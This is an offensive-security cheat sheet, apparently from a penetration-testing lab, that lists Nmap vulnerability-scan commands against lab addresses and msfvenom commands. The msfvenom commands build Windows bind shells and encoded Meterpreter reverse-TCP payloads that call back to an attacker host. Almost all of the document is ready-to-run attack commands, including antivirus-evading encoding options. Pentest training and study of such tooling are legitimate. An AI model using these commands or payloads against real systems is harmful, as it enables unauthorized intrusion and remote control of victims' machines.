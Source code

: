## Vulnerability Scanning

Nmap scanning: /usr/share/nmap/scripts

Nmap port 80 scanning:

```
nmap -v -p 80 --script=http-vuln-cve2010-2861 10.11.1.210
```

Nmap port 21 scanning:

```
nmap -v -p 21 --script=ftp-anon.nse 10.11.1.1-254
```

Nmap SMB scanning:

```
nmap -v -p 139,445 --script=smb-security-mode 10.11.1.236
```

***

## MSFVenom Commands

List all payloads:

```
msfvenom -l payloads
```

Show all options for selected payload:

```
msfvenom -p java/jsp_shell_reverse_tcp --list-options
```

Creating Windows bind shells:

```
msfvenom -p windows/shell_bind_tcp -f exe -o <Filename.exe> LPORT=<BindPort>
```

```
msfvenom -p windows/shell_bind_tcp -f dll -o <Filename.dll> LPORT=<BindPort>
```

Encoding a payload example:
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.0.0.40 LPORT=4444 -e x86/shikata_ga_nai -f exe -o payload.exe
```

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.0.0.5 LPORT=4444 -e x86/shikata_ga_nai -i 3 -f exe -o payload.exe
```

Remove bad characters example:
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.0.0.5 LPORT=4444 -b "\x00" -f exe -o payload.exe
```
